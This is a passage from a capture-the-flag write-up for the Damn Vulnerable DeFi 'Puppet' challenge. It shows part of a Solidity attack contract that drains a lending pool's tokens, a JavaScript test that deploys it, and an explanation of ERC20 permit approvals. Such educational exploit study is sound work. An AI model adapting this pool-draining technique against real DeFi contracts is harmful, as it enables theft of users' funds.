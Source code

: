         // drain lending pool's DVTs, sending them to owner (player)
        uint256 lendingPoolBalance = token.balanceOf(address(lendingPool));
        uint256 ethRequiredToDrain = lendingPool.calculateDepositRequired(
            lendingPoolBalance
        );
        lendingPool.borrow{value: ethRequiredToDrain}(lendingPoolBalance, owner);
    }
}
{{< /code >}}

{{< code language="javascript" title="puppet.challenge.js" id="5" expand="Show" collapse="Hide" isCollapsed="true" >}}
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */

    attack = await (await ethers.getContractFactory('PuppetAttack', player)).deploy(
        player.address,
        token.address,
        lendingPool.address,
        uniswapExchange.address,
        {
            // send most ETH to the attack contract, keeping some for gas
            value: PLAYER_INITIAL_ETH_BALANCE - 1n * 10n**18n, 
            gasLimit: 1e7
        }
    );
});
{{< /code >}}

The above code will fail, however, as there is a significant problem: for the attack contract to trade our DVTs, we need to allow our DVTs to be spent by the attack contract - how can we do this without using up another transaction?

# ERC20 Permit Approvals

We can't simply `transfer` our tokens to the attack contract, or `approve` the attack contract to use our tokens, without a transaction.

Fortunately if we look closer at the DVT contract, we notice it uses [solmate's ERC20 implementation](https://github.com/transmissions11/solmate/blob/main/src/tokens/ERC20.sol).

```solidity
import "solmate/src/tokens/ERC20.sol";
```

This particular implementation includes the `permit` function, which was designed as a gas efficient way to `approve` a spender. It is essentially an [extension to ERC20](https://eips.ethereum.org/EIPS/eip-2612) to allow others to spend your tokens **in a single transaction**.

For example, say you wish to exchange some tokens. Normally you would need to call `approve(exchange, amount)` to allow `exchange` to spend `amount` of your tokens, then the exchange can take your tokens by doing `transferFrom(you, exchange, amount)`. This requires a total of 2 transactions, one from you and one from the exchange. **There is no way to do both in the same transaction** (unless you are a contract).
